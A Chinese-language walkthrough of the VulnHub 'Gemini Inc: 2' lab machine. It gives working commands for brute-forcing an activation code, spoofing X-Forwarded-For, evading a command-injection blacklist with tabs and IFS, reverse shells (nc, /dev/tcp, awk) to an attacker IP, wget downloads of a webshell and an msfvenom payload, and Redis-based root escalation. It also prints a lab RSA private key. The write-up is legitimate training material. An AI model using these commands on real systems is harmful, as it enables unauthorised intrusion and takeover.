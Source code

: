靶机地址：[Gemini Inc: 2 ~ VulnHub](https://www.vulnhub.com/entry/gemini-inc-2,234/)

主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- "192.168.1.49"
sudo nmap -p "22,80" -sV "192.168.1.49"
# 22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```
和之前的差不多，但是弱口令登录不上了
路径扫描
```Shell
sudo dirsearch -u "http://192.168.1.49"
# 没啥有用的 进一步探测
dirb "http://192.168.1.49" -r -X .php
# /activate.php
# /registration.php
```
通过 `/registration.php` 可以注册账号，但是登录成功后提示未激活，请提交6位激活码。
访问 `/activate.php` 是一个表单，字段为用户ID和激活码，很自然地想到暴力破解。
拦截请求，发现还有一个 `token` 字段，需要绕过
暴破类型选择Pitchfork: 多个参数各自指定字典，同时进行，不交叉
设置两个Payload点，分别在激活码和token的值上
激活码Payload类型选择 `Numbers` From 0 To 999999 Step 1，位数依次设置为 6 6 0 0
token类型选择 `Recursive grep` 递归搜索，`Options` 子选项卡中的 `Grep - Extract` 中设置匹配格式
因为要绕过token不能多线程，`Resource pool` 选项卡中增加一个最大请求数为1的，选中
还要在 `Options` 子选项卡中的 `Error Handling` 中禁止失败重试，设置为0就好了
很快，在 `000511` 的时候，响应长度变了，应该是激活成功了，再次登录看看，功能可以使用了。
可以看到全部用户和各个用户的详情页，在第一个用户的详情页源码中发现了如下注释
```html
<!-- <b>Password:</b> edbd1887e772e13c251f688a5f10c1ffbb67960d<br/> -->
```
Google一下这段密文，对应值为
```
secretpassword
```
尝试登录 `Gemini` ，成功了，发现比普通用户多了 `Admin Panel` ，但是都403了，响应中提示`IP NOT ALLOWED` ，尝试绕过，可以使用插件，发现增加如下标头可以绕过
```
X-Forwarded-For: 127.0.0.1
```
通过BurpSuite的 `Bypass WAF` 插件自动为请求添加头部
`Project options` 标签页下的 `Sessions` 子选项卡中的 `Sessions Handling Rules` 点击 `Add`
选择 `Invoke a Burp extension` ，`Scope` 全选，选择 `Use suite scope`
`Target` 中右键靶机IP 加入scope，`Re-enable`
设置完再访问，果然自动加了
也可以直接在 `Match and Replace` 中自己手动加
可以执行命令，尝试反弹Shell
```Shell
nc 192.168.1.26 4444 -e /bin/bash
```
提示执行失败，经过尝试，可能是空格被黑名单了，换成制表符可以绕过检测
```
nc%09192.168.1.26%094444
```
可以设置自动替换 `Proxy -> Options -> Match and Replace` ，`Add`
成功执行了，但没有收到连接，可能是目标系统没有netcat
尝试上传一个
```Shell
cd /usr/bin
python3 -m http.server 7331
```
下载
```Shell
wget http://192.168.1.26:7331/nc -O /tmp/nc
```
接下来
```Shell
chmod +x /tmp/nc
```
反弹shell
```Shell
/tmp/nc 192.168.1.26 4444 -e /bin/bash
```
失败了，再试试别的
```Shell
bash -i >& /dev/tcp/192.168.1.26/4444 0>&1
awk 'BEGIN{s="/inet/tcp/0/192.168.1.26/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
这些方法都不行，太蠢了
可以使用IFS指定分隔符绕过黑名单，直接尝试上传WebShell
```Shell
IFS=",";a="wget,http://192.168.1.26:7331/rs.php,-O,/tmp/rs.php";$a
IFS=",";a="php,/tmp/rs.php";$a
```
还可以通过mfs生成反弹shell的二进制文件
```Shell
msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=192.168.1.26 LPORT=4444 -b '\x00' -e 'x86/shikata_ga_nai' -f elf -o shell.bin
```
获取执行
```Shell
IFS=",";a="wget,http://192.168.1.26:7331/shell.bin,-O,/tmp/shell";$a
IFS=",";a="chmod,777,/tmp/shell";$a
/tmp/shell
```
成功获取到Shell，尝试提权
Redis提权
```Shell
ss -antlp
# 127.0.0.1:6379 redis
grep "requirepass" /etc/redis/6379.conf
# requirepass 8a7b86a2cd89d96dfcc125ebcc0535e6
redis-cli -a 8a7b86a2cd89d96dfcc125ebcc0535e6
> keys *
# 1) "crackit"
> get "crackit"
```
获取到如下内容
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA+GUWfhmRYKhf2C1Hd71wCpKDXvp63B53RMmpN/wtqMi/IuTX
+oAm/vfM5lbZShoKcYGT3AnYKOQGmJY96IlAR6rr4yWKVs2vnOMsJvKgpGxpQ4XD
Lc9wu0E0M3AXSPgTOEusoW/Ql1yUKJYUBJJLdCMQ2Kp1KSjnNqRMI377QNLKF2dW
maFzA+3hUoTVdZItrBw94AAKBs0rW4JMlROwlhCAWSMOUXeDe+Z/akwg21/lRf7x
fmzEHHGM/kQHqtvJqoPBnL51L3r5708X7f7UmXa6ancWj+RQXRwZlHEkGY3ZnFWg
WuoxJ6yafMA45Qw1pEIeff607BwOe76mQGReRQIDAQABAoIBAQC81iT+YrOp1vde
YjXl6welkfL7ntMOSr8DdYgG/tk7arocbftf/lMnHP4R0s7ITfnIhukArB9AHvKA
yB9yi/1pPqCsA9si2KX8UJw9U9EajyyLX8KdLgoW4aAsxrd9CtOZxbYM2POsTn54
SHgZbZqdRRdGkHgXfXghi1Ay4BNlGBuKtO6N52AV7rcumGXhvKDQRWno4rs4/KJh
7T4wX/e5Msny0FeTs3IvoVcZ98jT3QZNNtXMbnJNlj7GlZtPiOx1gKG5IRFSN6Xe
2ptdvffgr9KyeTUo/9tMwf+N68BXBlXBMbE5KgSOZIltPojaFou/6O7OmoSvlj3X
3R7wFp0VAoGBAP5fX5jylGBhNkCZy24rErZhy2HtzNoW9+2VLhU3AF3Qh09+mWgl
0sWwwuYRl4CADljOmFjVXt6QCOAfggDeQCmToJTsZtctLSHjEGJWR1JD+uOEMS7o
2hSwy2at6CTv+SJ+R3DprUGMHdJoK30NGzomLMGMYv56tjzliVQvJQunAoGBAPn7
7IB/qCyaOZJw4lzYKQnvSqqt+hdU3a0jD06zs92UNjf2OdSZVA1FSAkIo0P3/4RD
vu/pHF9QJ9mapjV9P1P9mhZ6SNEh7LYOXqWu2jWSNqrMAdNljb0GG9NEMpdzAI6H
M3XzBbZPQVGz6Urd8NGdKn4k3Xrham+LXz0rVhQzAoGBAMk4owP3qT5QyDz0LEPb
GPNjiyLNnYZMMxYjM5AesVCFO/S7nhkQCprOCG89LU6+fhrsWwGy0FhZMlwxMIMF
TVZWbOpB09yV5STwXS6dN9Aw7I/8K3gDRTim3lA8c+58UuVhZZxBjgfTEmg2dWh3
7LjkJ/V323uZkP29ShRpMvHzAoGAGc7mdcW4KRKrCvFYjVlLs1jfDovzm+EJGcza
0bc/xIp+pnxnMAm8YbpbW4Nmx6ec25za443fff+afZ63tiH+Hb+63sM1LVIhTBJj
txs8L/euaSeysI51eaRdzwvlZTlcP1q5911lo5K/HZ5DYZVUPW/KaUeJDhyjjmyH
IpuMwX0CgYEAluSwBfv2orBet+Q4eF+rxwVOG6QKbl4ozcVcd8KUfCxqe2Q9u2hN
r708EeAVLNolvalHALOfPVnOuvpfBs7q7GMwQi5WNEJBjY4kusi/6ZDZPwcrYk25
5sNTyVYoqjI/3qe2naHLzM7ftato0QtKg10i8XkAEOzWyFVRsP2RZak=
-----END RSA PRIVATE KEY-----
```
传一个公钥上去
```Shell
mkdir .ssh
wget http://192.168.1.26:7331/id_rsa.pub -O .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 755 .ssh/
```
这样的话就可以直接ssh到靶机上了
```Shell
cp .ssh/authorized_keys id_rsa.pub
# 准备数据
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > public.txt
# 先清空全部数据
redis-cli -a 8a7b86a2cd89d96dfcc125ebcc0535e6 flushall
cat public.txt | redis-cli -a 8a7b86a2cd89d96dfcc125ebcc0535e6 -x set 1
```
再将它通过root权限写入root的对应目录下即可
```Shell
redis-cli -a 8a7b86a2cd89d96dfcc125ebcc0535e6
> CONFIG SET dir /root/.ssh
> CONFIG SET dbfilename authorized_keys
> save
> exit
```
成功获取root权限